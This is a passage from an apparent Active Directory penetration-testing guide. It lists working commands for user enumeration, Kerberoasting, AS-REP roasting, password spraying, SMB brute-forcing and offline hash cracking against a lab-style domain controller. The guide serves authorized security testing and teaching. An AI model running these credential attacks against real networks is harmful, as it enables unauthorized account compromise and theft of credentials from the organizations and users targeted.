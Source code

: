    * Try to authenticate with non-existent and existing users to see which respond differently.

     ```bash
     # Use Kerbrute to enumerate valid usernames
     kerbrute userenum --dc 10.10.10.5 -d CORP.LOCAL usernames.txt
     ```

3. **Kerberoasting – request TGS tickets for service accounts**

   * Use Impacket’s `GetUserSPNs.py` to request service tickets for accounts with SPNs.

     ```bash
     GetUserSPNs.py CORP.LOCAL/username:Passw0rd! -dc-ip 10.10.10.5 -request
     ```
   * Output: one or more `.ccache` files containing TGS hashes. Crack them offline with Hashcat or John:

     ```bash
     # Example Hashcat command
     hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
     ```

---

## 5. Password Spraying & Brute-Forcing

1. **Password spraying with CrackMapExec**

   * Try a common password (e.g., “Summer2025!”) across a large user list to avoid lockouts.

     ```bash
     crackmapexec smb 10.10.10.0/24 -u users.txt -p 'Summer2025!'
     ```

2. **Hydra/CrackMapExec for SMB brute-forcing (if allowed)**

   * Use smaller user lists and password lists to avoid lockouts.

     ```bash
     # Hydra example
     hydra -L users.txt -P passwords.txt smb://10.10.10.5
     ```

3. **AS-REP Roasting**

   * Identify users without “PreAuthRequired” set and request AS-REP to get their encrypted TGTs.

     ```bash
     GetNPUsers.py CORP.LOCAL/ -dc-ip 10.10.10.5 -usersfile users_no_preauth.txt -format john
     ```
   * Crack the resulting hashes offline:

     ```bash
     john --wordlist=/usr/share/wordlists/rockyou.txt asrep_hashes.txt
     ```

---
